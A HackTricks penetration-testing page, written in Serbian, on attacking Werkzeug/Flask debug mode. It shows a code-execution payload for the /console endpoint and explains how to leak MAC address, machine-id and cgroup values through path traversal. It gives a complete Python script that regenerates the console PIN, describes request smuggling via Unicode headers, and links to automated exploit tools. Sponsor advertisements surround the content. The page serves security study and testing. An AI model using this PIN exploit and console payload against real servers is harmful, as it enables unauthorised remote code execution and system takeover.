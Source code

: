 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Pokrenite potpuni pentest sa bilo kog mesta uz 20+ alata i funkcija koje idu od rekognicije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Ako je debug aktivan, možete pokušati da pristupite `/console` i dobijete RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Postoji nekoliko eksploata na internetu kao [ovaj](https://github.com/its-arun/Werkzeug-Debug-RCE) ili jedan u metasploit-u.

## Zaštićeno PIN-om - Putanja Prelaz

U nekim slučajevima, **`/console`** krajnja tačka će biti zaštićena PIN-om. Ako imate **ranjivost prelaza datoteka**, možete da iscurite sve potrebne informacije za generisanje tog PIN-a.

### Werkzeug Console PIN Eksploit

Prisilite stranicu sa greškom za debagovanje u aplikaciji da biste videli ovo:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Poruka u vezi sa scenarijom "konzola zaključana" se pojavljuje kada se pokušava pristupiti debug interfejsu Werkzeug-a, što ukazuje na potrebu za PIN-om za otključavanje konzole. Predlaže se da se iskoristi PIN konzole analizom algoritma za generisanje PIN-a u inicijalizacionom fajlu Werkzeug-a (`__init__.py`). Mehanizam generisanja PIN-a može se proučiti iz [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), iako se savetuje da se pribavi stvarni kod servera putem ranjivosti u pretraživanju fajlova zbog mogućih razlika u verzijama.

Da bi se iskoristio PIN konzole, potrebna su dva skupa varijabli, `probably_public_bits` i `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Odnosi se na korisnika koji je pokrenuo Flask sesiju.
* **`modname`**: Obično označen kao `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Obično se rešava u **Flask**.
* **`getattr(mod, '__file__', None)`**: Predstavlja punu putanju do `app.py` unutar Flask direktorijuma (npr., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Ako `app.py` nije primenljiv, **probajte `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Dohvata MAC adresu trenutne mašine, pri čemu `str(uuid.getnode())` prevodi u decimalni format.
* Da bi se **odredila MAC adresa servera**, potrebno je identifikovati aktivni mrežni interfejs koji koristi aplikacija (npr., `ens3`). U slučajevima nesigurnosti, **leak `/proc/net/arp`** da biste pronašli ID uređaja, zatim **izvucite MAC adresu** iz **`/sys/class/net/<device id>/address`**.
*   Konverzija heksadecimalne MAC adrese u decimalnu može se izvršiti kao što je prikazano u nastavku:

```python
# Primer MAC adrese: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Spaja podatke iz `/etc/machine-id` ili `/proc/sys/kernel/random/boot_id` sa prvom linijom `/proc/self/cgroup` posle poslednjeg kosa (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Kada se prikupe svi potrebni podaci, skripta za eksploataciju može biti izvršena da generiše Werkzeug konzolni PIN:

Kada se prikupe svi potrebni podaci, skripta za eksploataciju može biti izvršena da generiše Werkzeug konzolni PIN. Skripta koristi sastavljene `probably_public_bits` i `private_bits` da kreira heš, koji zatim prolazi kroz dalju obradu da bi se dobio konačni PIN. Ispod je Python kod za izvršavanje ovog procesa:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Ovaj skript proizvodi PIN tako što hešira spojene bitove, dodaje specifične soli (`cookiesalt` i `pinsalt`), i formatira izlaz. Važno je napomenuti da se stvarne vrednosti za `probably_public_bits` i `private_bits` moraju tačno dobiti iz ciljanog sistema kako bi se osiguralo da generisani PIN odgovara onom koji očekuje Werkzeug konzola.

{% hint style="success" %}
Ako ste na **starijoj verziji** Werkzeug-a, pokušajte da promenite **heš algoritam na md5** umesto sha1.
{% endhint %}

## Werkzeug Unicode karakteri

Kao što je primećeno u [**ovoj temi**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug ne zatvara zahtev sa Unicode karakterima u header-ima. I kao što je objašnjeno u [**ovoj analizi**](https://mizu.re/post/twisty-python), to može izazvati CL.0 Request Smuggling ranjivost.

To je zato što je u Werkzeug-u moguće poslati neke **Unicode** karaktere i to će uzrokovati **kvar** servera. Međutim, ako je HTTP veza kreirana sa header-om **`Connection: keep-alive`**, telo zahteva neće biti pročitano i veza će ostati otvorena, tako da će **telo** zahteva biti tretirano kao **sledeći HTTP zahtev**.

## Automatizovana Eksploatacija

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Reference

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Izvršite potpuni pentest sa bilo kog mesta sa 20+ alata i funkcija koje idu od rekognicije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
